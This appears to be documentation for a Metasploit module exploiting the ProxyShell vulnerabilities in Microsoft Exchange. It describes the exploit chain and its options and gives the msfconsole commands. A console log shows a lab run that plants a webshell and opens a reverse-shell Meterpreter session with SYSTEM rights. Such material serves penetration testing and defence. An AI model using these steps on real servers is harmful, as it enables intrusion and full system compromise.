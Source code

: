 ## Vulnerable Application

This module exploits a vulnerability on Microsoft Exchange Server that allows an attacker to bypass the authentication
(CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and write an arbitrary file (CVE-2021-34473) to achieve
the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.15
  * Exchange 2016 CU19 < 15.1.2176.12
  * Exchange 2016 CU20 < 15.1.2242.5
  * Exchange 2019 CU8 < 15.2.792.13
  * Exchange 2019 CU9 < 15.2.858.9

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: April 13, 2021 (KB5001779)][1]*

### Exploit Internals

At a high level, the steps the exploit takes are as follows:

1. Build a Common Access Token corresponding to a user with the "Mailbox Import Export" role
    1. If an email address is specified using the `EMAIL` datastore option, the exploit will attempt to use the owner
    1. If no email address is specified
        1. The exploit will leverage the SSRF to issue a reques to EWS and enumerate the email addresses
            * This technique was taken from [dmassland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc/blob/main/proxyshell-enumerate.py)
        1. The module will store the enumerated email addresses in a CSV file
        1. Each of the email addresses will be checked for the necessary role
    1. A common access token will be built using the verified user's SID
        * Email addresses are mapped to SIDs using a request to autodiscover and MAPI
1. A draft email is saved to the identified user's mailbox containing an encoded webshell embedded within an attachment
1. The `New-MailboxExportRequest` cmdlet is used to export the attachment and write the webshell to an accessible location
1. The exploit waits for the webshell to be written and uses it to execute OS commands
1. The webshell*, export request and draft email are all removed
    * *The webshell can only be remove automatically if the selected payload establishes a sessions (such as Meterpreter)


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/http/exchange_proxyshell_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `run`

## Options

### EMAIL

A known email address for this organization. If specified, the user who owns the mailbox must either have the "Mailbox
Import Export" role already or have the necessary permissions to assign it to themselves. This would typically be some
sort of an administrative user. If this option is left blank, the module will enumerate all valid email addresses and
check each one for the necessary privileges.

### UseAlternatePath

Use the IIS root dir as alternate path. Default: `false`

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: `C:\Program Files\Microsoft\Exchange Server\V15`

### ExchangeWritePath

The path where you want to write the backdoor. Default: `owa\auth`

You can for example, set it to: `ecp\auth`

### IISBasePath

The base path where IIS wwwroot directory is. Default: `C:\inetpub\wwwroot`

### IISWritePath

The path where you want to write the backdoor. Default: `aspnet_client`

### MapiClientApp

This is MAPI client version sent in the request.

## Scenarios

### Exchange 2016 CU 19 on Server 2016

```
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/http/exchange_proxyshell_rce) > check
[+] 192.168.159.42:443 - The target is vulnerable.
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-bpid95acq7e.exchg.lan
[*] Enumerating valid email addresses and searching for one that either has the 'Mailbox Import Export' role or can self-assign it
[*] Enumerated 2 email addresses
[*] Saved mailbox and email address data to: /home/smcintyre/.msf4/loot/20210827174927_default_192.168.159.42_ad.exchange.mail_205456.txt
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2800676829-2777257591-1686523126-1000 (smcintyre@exchg.lan)
[*] Saving a draft email with subject 'ie1Y1uNnLfxL' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200262 bytes) to 192.168.159.42
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.42:7149) at 2021-08-27 17:49:40 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-april-13-2021-kb5001779-8e08f3b3-fc7b-466c-bbb7-5d5aa16ef064
